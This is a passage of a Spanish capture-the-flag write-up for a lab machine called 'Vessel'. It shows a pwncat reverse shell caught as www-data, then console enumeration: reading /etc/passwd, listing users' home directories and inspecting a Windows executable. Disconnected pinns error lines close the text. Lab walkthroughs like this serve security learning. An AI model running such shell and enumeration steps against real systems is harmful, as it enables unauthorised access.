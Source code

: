 Y recibimos una conexión en `pwncat` ganando acceso como el usuario `www-data`
```console
[00:31:15] received connection from 10.129.122.59:56796                                                  bind.py:84
[00:31:16] 0.0.0.0:443: upgrading from /usr/bin/dash to /usr/bin/bash                                manager.py:957
[00:31:17] 10.129.122.59:56796: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) www-data@vessel:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User Pivoting
Vemos que existen dos usuarios a parte de `root`, `ethan` y `steven`, así que supongo que tendremos que migrar de usuario antes de poder escalar privilegios.
```console
(remote) www-data@vessel:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ethan:x:1000:1000:ethan:/home/ethan:/bin/bash
steven:x:1001:1001:,,,:/home/steven:/bin/bash
```

Podemos acceder al directorio personal del usuario `steven` por alguna razón y vemos un binario llamado `passwordGenerator`, también vemos un directorio `.notes`
```console
(remote) www-data@vessel:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Aug 11  2022 .
drwxr-xr-x 19 root   root   4096 Aug 11  2022 ..
drwx------  5 ethan  ethan  4096 Aug 11  2022 ethan
drwxrwxr-x  3 steven steven 4096 Aug 11  2022 steven
(remote) www-data@vessel:/home$ cd ethan
bash: cd: ethan: Permission denied
(remote) www-data@vessel:/home$ cd steven/
(remote) www-data@vessel:/home/steven$ ls
passwordGenerator
(remote) www-data@vessel:/home/steven$ ls -la
total 33796
drwxrwxr-x 3 steven steven     4096 Aug 11  2022 .
drwxr-xr-x 4 root   root       4096 Aug 11  2022 ..
lrwxrwxrwx 1 root   root          9 Apr 18  2022 .bash_history -> /dev/null
-rw------- 1 steven steven      220 Apr 17  2022 .bash_logout
-rw------- 1 steven steven     3771 Apr 17  2022 .bashrc
drwxr-xr-x 2 ethan  steven     4096 Aug 11  2022 .notes
-rw------- 1 steven steven      807 Apr 17  2022 .profile
-rw-r--r-- 1 ethan  steven 34578147 May  4  2022 passwordGenerator
```

`passwordGenerator` no es un binario si no un ejecutable Windows.
```console
(remote) www-data@vessel:/home/steven$ file passwordGenerator
passwordGenerator: PE32 executable (console) Intel 80386, for MS Windows
```


[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
[pinns:w]: Failed to create ns file: File exists